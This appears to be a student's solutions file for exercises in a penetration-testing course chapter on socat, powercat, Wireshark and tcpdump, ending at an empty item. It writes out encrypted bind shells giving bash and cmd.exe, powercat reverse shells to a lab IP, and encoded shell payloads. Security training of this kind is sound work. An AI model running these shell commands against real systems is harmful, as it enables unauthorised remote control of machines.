 = Solutions to exercises from Chapter 4: Practical Tools

== 4.2.4.1

1. `socat TCP4-LISTEN:4444,fork file:/usr/share/powercat/powercat.ps1`
2. `openssl req -newkey rsa:2048 -nodes -keyout output.key -x509 -days 365  -out output.crt && \
    cat output.key output.crt > output.pem && \
    socat OPENSSL-LISTEN:443,cert=output.pem,verify=0,fork EXEC:/bin/bash`
3. `socat OPENSSL-LISTEN:443,cert-output.pem,verify=0,fork EXEC:cmd.exe,pipes` creates an encrypted bind shell from Windows
4. Running unencrypted seems to be detected and blocked by Windows firewall

== 4.3.8.1

1. `powercat -c 192.168.119.224 -p 443 -e cmd.exe`
2. `powercat -l  -p 443 -e cmd.exe`. Yes, it is possible to connect locally, as long as port 443 is used
3. `powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1` for bind shell
   `powercat -c 192.168.119.224 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1` for reverse shell

== 4.4.5.1

1. To capture activity, we use filter `host 10.11.1.217 and port 110`
2. The three-way handshake is happening over TCP.
3. Login attempt from Wireshark TCP stream looks like
```
+OK example.com Cyrus POP3 v2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 server ready <1257769200.1596467546@example.com>
login
-ERR Unrecognized command
user anonymous
+OK Name is a valid mailbox
```
4. Display filter is `tcp.port == 110`
5. Capture filter is `port 110`

== 4.5.3.1

1. `tcpdump -n -i tun0` to listen to traffic on the VPN tunnel
2. `tcpdump -n -i tun0 -X` shows the content of each packet
3.
